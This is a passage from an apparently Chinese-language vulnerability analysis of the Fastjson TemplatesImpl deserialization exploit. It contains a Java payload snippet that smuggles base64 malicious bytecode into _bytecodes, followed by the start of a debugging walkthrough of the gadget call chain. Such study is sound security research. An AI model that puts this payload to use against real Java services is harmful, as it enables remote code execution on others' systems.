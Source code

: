 核心部分：

```
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";

Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField); 
```

_bytecodes 是经过 base64 编码的 evilClass1 的字节码文件，NASTY_CLASS 是 TemplatesImpl 类。总结一下这个 payload，利用 JSON.parseObject 反序列化 TemplatesImpl 类，其中 _bytecodes 属性是经过 base64 编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化 TemplatesImpl 的调用链，首先经过 java 的反射机制，到达 TemplatesImpl 类，调用其 getOutputProperties()方法：

![image](img/4e88b6cc366c7229e7c8586b9a262a14.png)
